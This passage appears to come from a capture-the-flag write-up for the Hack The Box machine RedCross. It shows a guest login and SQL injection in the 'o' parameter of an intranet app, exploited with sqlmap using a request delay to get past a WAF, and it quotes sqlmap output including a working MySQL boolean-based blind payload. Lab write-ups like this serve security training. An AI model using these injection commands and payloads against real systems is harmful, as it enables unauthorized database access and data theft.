 On allowing the redirect, I'm back at the main login. And logging in
with guest / guest works and drops me at a Account info page:

![](/img/1554219749998.png)

#### SQLi

On submitting the UserID filter, I'm sent to
`https://intra.redcross.htb/?o=1&page=app`, where `o=` is the id
filtered on. If I try with a `'` in there,
`https://intra.redcross.htb/?o=1'&page=app`:

![](/img/1554221201416.png)

Just running `sqlmap` will grind to a halt and break because of the WAF
on the box. I'll look at [manual SQLi in Beyond Root](#sqli-details).
But I can still use `sqlmap` if I put in `--delay=1`, which puts a one
second delay between each request. That also makes this take forever.
I'd recommend running it and walking away:



    root@kali# sqlmap -r app.request --delay=1 --batch --dump
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.2.10#stable}
    |_ -| . [)]     | .'| . |
    |___|_  [,]_|_|_|__,|  _|
          |_|V          |_|   http://sqlmap.org

    [*] starting at 17:35:40

    [17:35:40] [INFO] parsing HTTP request from 'app.request'  
    [17:35:40] [INFO] testing connection to the target URL           
    sqlmap got a 301 redirect to 'https://intra.redcross.htb/?o=9&page=app'. Do you want to follow? [Y/n] Y
    [17:35:41] [INFO] testing if the target URL content is stable
    [17:35:42] [WARNING] GET parameter 'o' does not appear to be dynamic
    [17:35:43] [INFO] heuristic (basic) test shows that GET parameter 'o' might be injectable (possible DBMS: 'MySQL')
    [17:35:44] [INFO] heuristic (XSS) test shows that GET parameter 'o' might be vulnerable to cross-site scripting (XSS) attacks
    [17:35:44] [INFO] testing for SQL injection on GET parameter 'o'
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
    ...[snip]...
    GET parameter 'o' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 354 HTTP(s) requests:
    ---                                                                       
    Parameter: o (GET)                                                           
        Type: boolean-based blind                                         
        Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
        Payload: o=9') RLIKE (SELECT (CASE WHEN (1947=1947) THEN 9 ELSE 0x28 END))-- OmFQ&page=app
                                                                                 